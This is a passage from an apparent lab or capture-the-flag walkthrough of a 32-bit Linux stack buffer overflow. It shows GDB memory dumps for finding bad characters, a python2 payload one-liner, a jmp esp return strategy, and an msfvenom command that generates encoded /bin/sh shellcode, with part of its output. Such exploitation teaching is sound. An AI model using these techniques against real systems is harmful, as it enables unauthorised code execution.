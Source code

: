 ```
0xffffccd0:     0x42    0x42    0x42    0x42    0x42    0x42    0x42    0x42
0xffffccd8:     0x42    0x42    0x42    0x42    0x00    0x01    0x02    0x03
0xffffcce0:     0x04    0x05    0x06    0x07    0x08    0x09    0x00    0x00
0xffffcce8:     0x14    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0xffffccf0:     0xec    0xcf    0xff    0xf7    0x03    0x00    0x00    0x00
0xffffccf8:     0x00    0x00    0x00    0x00    0xdc    0xdc    0xd6    0xf7
0xffffcd00:     0xec    0xcf    0xff    0xf7    0xac    0xb3    0xd7    0xf7
0xffffcd08:     0xff    0xff    0xff    0xff    0x7c    0x03    0xd7    0xf7
0xffffcd10:     0x00    0xf4    0xfb    0xf7    0x00    0x00    0x00    0x00
0xffffcd18:     0xc8    0xcd    0xff    0xff    0x40    0xcd    0xff    0xff
```

We can see that a lot of characters are being replaced with `\x00`. Let's remove that and continue.

```
└─$ python2 -c 'print "\x42" * (316-254-4) + "\x01\x02\x03\[...snip...]xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" + "\x43" * 4' > bad_char_enum.txt

0xffffccd0:     0x42    0x42    0x42    0x42    0x42    0x42    0x42    0x42
0xffffccd8:     0x42    0x42    0x42    0x42    0x42    0x42    0x01    0x02
0xffffcce0:     0x03    0x04    0x05    0x06    0x07    0x08    0x09    0x00
0xffffcce8:     0x14    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0xffffccf0:     0xec    0xcf    0xff    0xf7    0x03    0x00    0x00    0x00
0xffffccf8:     0x00    0x00    0x00    0x00    0xdc    0xdc    0xd6    0xf7
0xffffcd00:     0xec    0xcf    0xff    0xf7    0xac    0xb3    0xd7    0xf7
```

We can also see that the code seems to stop abruptly right after the `\x09` call, we'll remove this and continue.

This is generally an incremental process, so you'll continue to remove bad characters and ensure they are exempt from your payload until eventually no further bad characters can be found. This should lead you to the following result:

```
\x00\x09\x0a\x20
```

We'll keep this in mind as we generate our shellcode.

## Shellcode/Return Address Consolidation (LOCAL EXPLOIT)

Now that we have our buffer padding, NOP sled, and bad character filtering out of the way, we can proceed with the exploitation.

There are two different ways we can approach this. For the local exploit, we'll be adding our shellcode after the NOP sled via a Python script and the `pwntools` library.

If you haven't noticed already, that `jmp esp` call in the `jump()` function will be useful to us. Instead of manually overwriting the EIP, we can actually search for a `jmp esp` call and then use that to jump to the ESP (stack pointer). From there, we'll load our shellcode and receive command execution.

We can use `msfvenom` to form the payload, as the below:

```
└─$ msfvenom -p linux/x86/exec CMD=/bin/sh -f python -v buf --bad-chars "\x00\x09\x0a\x20"                       
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 70 (iteration=0)
x86/shikata_ga_nai chosen with final size 70
Payload size: 70 bytes
Final size of python file: 357 bytes
buf =  b""
buf += b"\xbf\x2a\x69\x3e\x38\xd9\xcd\xd9\x74\x24\xf4\x58"
buf += b"\x31\xc[...snip...]e\x37"
```
